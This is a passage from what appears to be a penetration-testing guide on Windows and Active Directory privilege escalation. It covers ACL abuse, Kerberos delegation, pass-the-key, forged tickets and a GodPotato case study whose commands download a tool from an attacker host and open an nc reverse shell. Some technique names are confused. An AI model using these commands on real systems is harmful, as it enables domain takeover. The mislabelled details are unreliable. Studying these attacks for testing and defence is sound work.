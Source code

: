 This gives user1 full control of Domain Admins. Then the attacker can add themselves to that group or reset a DA password. They could also escalate by taking WriteDACL on an account and adding GenericAll via ACL modifications. (This method requires existing mispermitted rights in AD, which BloodHound helps find.)

- **Kerberos Delegation**: If an attacker finds a computer or user account with unconstrained delegation, NTLM Relay, or resource-based constrained delegation, they may steal service tickets of higher users. E.g., if MachineA is unconstrained-delegated to a service that DA logs into, capturing its TGS can allow forging tickets. (Using Rubeus/Kerberos tools). These are advanced topics; defenders should limit delegation to necessary hosts.
- **Other AD Attacks**: Depending on environment, other tricks include:
• **Over-Pass-the-Hash (Pass-the-Key)**: Using Kerberos off-the-hash (AS-REP trick), e.g. `Rubeus.exe asktgt /user:USER /rc4:<NTLM>` can authenticate via Kerberos with an NT hash.
• **Shadow Credentials (Silver Tickets)**: If a service's NTLM secret is known, forge a service ticket (`kerberos::golden /service:<SPN>`).
• **Certificate Services / Silver**: Exploiting AD CS (e.g. request a cert as DC) beyond scope here.
• **Group Policy Preferences**: If GPP syskey or cpassword is known (legacy), use that to get creds.

### Post-Exploitation (Domain)

After obtaining Domain Admin, attacker can do anything: extract the entire AD (e.g. ntdsutil to get ntds.dit), add backdoor accounts, install DC malware (DSShadow), etc. Always assume compromise is total.

## Case Studies and Scenarios

We now illustrate a few real-world examples drawn from CTFs and blogs:

- **GodPotato Exploit**: Suppose we have a service account with SeImpersonate. We enumerate with `whoami /priv` and see `SeImpersonatePrivilege: Enabled`. We download GodPotato:

```
powershell -c "wget <http://attacker/GodPotato.exe> -OutFile GodPotato.exe"

```

Then run it with a payload:

```
C:\\> GodPotato.exe -cmd "C:\\Tools\\nc.exe -e cmd.exe 192.168.45.162 4040"

```

As soon as GodPotato triggers, we see a reverse shell incoming, and whoami on the shell shows nt authority\system. This matches Nikhil Anand's example of PrintSpoofer/Juicy/GodPotato usage for LPE.

- **UAC Bypass via Fodhelper**: We're on a machine as a local administrator, but UAC is on. We run the PowerShell script from PentestLab: it creates the HKCU registry structure and starts fodhelper.exe (with window hidden). Immediately, we see a new elevated PowerShell prompt. We check `whoami /priv` and see our process is at high integrity (no UAC). This matches the documented Fodhelper bypass. With this elevated shell, we can e.g. run `net user /add` or Mimikatz to go further.
- **ACL Exploit (BloodHound)**: In BloodHound we notice user123 has WriteDACL on the Domain Admins group. Using PowerShell on a domain-joined machine (with domain creds), we execute the steps above to grant GenericAll to user123. After doing Set-Acl, we verify with PowerView:
